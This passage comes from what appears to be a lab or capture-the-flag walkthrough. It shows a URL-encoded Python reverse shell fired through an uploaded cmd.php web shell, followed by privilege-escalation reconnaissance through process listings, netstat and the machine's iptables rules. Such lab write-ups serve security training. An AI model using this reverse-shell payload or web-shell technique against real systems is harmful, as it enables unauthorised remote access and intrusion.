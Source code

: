 Then used the command executor to run some inline Python to connect back to the listener:

```
https://10.2.0.104:12380/blogblog/wp-content/uploads/cmd.php?e=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.2.0.3%22%2C5555%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27
```

Now, I had a fully interactive shell and could start some recon!

## Recon & Privilege Escalation

Running `ps aux` showed that the `JKanode` user was running a HTTP server on port 8888, but it was of no use, as it was just serving up the home directory which I already had access to. `root` was also running a continuous script from the `/root` directory, but due to lack of permissions, I couldn't see what it was:

```
JKanode   1450  0.0  0.4  14696  4536 ?        S    15:02   0:02 python2 -m SimpleHTTPServer 8888
root      1410  0.0  0.2   5720  2196 ?        S    15:02   0:00 /bin/bash /root/python.sh
```

In case this script was listening for anything locally, I ran `netstat -a` to try and identify any previously unidentified services. Doing so, suggested a tftp service was running over UDP:

```
udp        0      0 *:tftp                  *:*    
```

A look at the `iptables` configuration also shows that all external UDP traffic is being accepted:

```shell_session
www-data@red:/home$ cat /etc/iptables/rules.v4
# Generated by iptables-save v1.6.0 on Fri Jun  3 22:08:54 2016
*filter
:INPUT DROP [0:0]
:FORWARD ACCEPT [0:0]
:OUTPUT ACCEPT [0:0]
-A INPUT -p tcp -m state --state RELATED,ESTABLISHED -j ACCEPT
-A INPUT -p udp -j ACCEPT
-A INPUT -p icmp -j DROP
-A INPUT -p tcp -m tcp --dport 20 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 21 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 22 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 53 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 80 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 123 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 137 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 138 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 139 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 666 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 3306 -j ACCEPT
-A INPUT -p tcp -m tcp --dport 12380 -j ACCEPT
COMMIT
```
